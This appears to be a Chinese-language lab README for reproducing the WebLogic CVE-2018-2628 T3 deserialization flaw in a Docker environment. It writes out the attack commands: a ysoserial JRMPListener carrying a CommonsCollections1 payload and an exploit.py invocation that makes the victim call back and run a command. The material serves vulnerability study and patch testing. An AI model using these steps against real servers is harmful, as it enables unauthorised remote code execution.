

# Weblogic WLS Core Components 反序列化命令执行漏洞（CVE-2018-2628）

Oracle 2018年4月补丁中，修复了Weblogic Server WLS Core Components中出现的一个反序列化漏洞（CVE-2018-2628），该漏洞通过t3协议触发，可导致未授权的用户在远程服务器执行任意命令。

参考链接：

- http://www.oracle.com/technetwork/security-advisory/cpuapr2018-3678067.html
- http://mp.weixin.qq.com/s/nYY4zg2m2xsqT0GXa9pMGA
- https://github.com/tdy218/ysoserial-cve-2018-2628

## 漏洞环境

执行如下命令启动Weblogic 10.3.6.0：

```
docker-compose up -d
```

等待环境启动（环境差异，有的机器可能等待的时间比较久），访问`http://your-ip:7001/console`，初始化整个环境。

## 漏洞复现

首先下载ysoserial，并启动一个JRMP Server：

```
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener [listen port] CommonsCollections1 [command]
```

其中，`[command]`即为我想执行的命令，而`[listen port]`是JRMP Server监听的端口。

然后，使用[exploit.py](https://www.exploit-db.com/exploits/44553)脚本，向目标Weblogic（`http://your-ip:7001`）发送数据包：

```
python exploit.py [victim ip] [victim port] [path to ysoserial] [JRMPListener ip] [JRMPListener port] [JRMPClient]
```

其中，`[victim ip]`和`[victim port]`是目标weblogic的IP和端口，`[path to ysoserial]`是本地ysoserial的路径，`[JRMPListener ip]`和`[JRMPListener port]`第一步中启动JRMP Server的IP地址和端口。`[JRMPClient]`是执行JRMPClient的类，可选的值是`JRMPClient`或`JRMPClient2`。

exploit.py执行完成后，执行`docker-compose exec weblogic bash`进入容器中，可见/tmp/success已成功创建。


